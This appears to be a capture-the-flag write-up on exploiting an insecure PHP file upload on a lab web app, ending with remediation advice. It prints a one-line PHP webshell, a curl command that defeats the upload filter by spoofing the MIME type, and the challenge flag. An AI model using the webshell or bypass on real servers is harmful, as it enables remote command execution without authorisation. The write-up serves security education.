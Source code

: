 ## Exploration

During our research, we discovered a file upload functionality on the `upload` page. An insecure
file upload can have severe consequences for a web application if not properly implemented, with a
critical one being remote command execution.

We attempted to perform a basic file upload using an image called `fleur.jpg`:

![Screenshot 2024-05-01 at 7.20.09 PM.png](images/Capture_decran_2024-05-01_a_19.20.09.png)

The file seems to be saved on the server, under the path `/tmp/fleur.jpg`

## Exploitation

We then tried uploading a PHP [webshell](https://fr.wikipedia.org/wiki/Backdoor_(computing)),
since the app is in PHP:

```bash
~ echo '<?php system($_GET["cmd"])?>' >> webshell.php
```

Unfortunately, it appears that there are protections, and we were unable to upload this file due
to its extension:

![Screenshot 2024-05-01 at 7.27.29 PM.png](images/Capture_decran_2024-05-01_a_19.27.29.png)

We also attempted to modify the file name, for instance with `webshell.jpg.php`, in case there was
a poorly configured regex expecting `.jpg` in the filename, but this did not work either.

However, we were successful in uploading this file by modifying its content type as `image/jpeg`:

```bash
curl -X POST 'http://192.168.64.36/index.php?page=upload' --form 'MAX_FILE_SIZE=100000' --form
'uploaded=@webshell.php;filename=webshell.php;type=image/jpeg' --form 'Upload=Upload' | grep flag
[... TRUNCATED DATA ...]
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
[... TRUNCATED DATA ...]
/tmp/webshell.php uploaded successfully.
```

And we obtained the flag.

## Remediation

A successful arbitrary file upload can lead to the worst-case scenario: remote command execution
on the server.

Here are some possible countermeasures for this vulnerability:

- Validate file extensions by implementing a whitelist of allowed extensions
- Analyze the MIME type and implement a corresponding whitelist
- Rename the downloaded file using a UUID
- Store files on a dedicated server, outside of the web application.
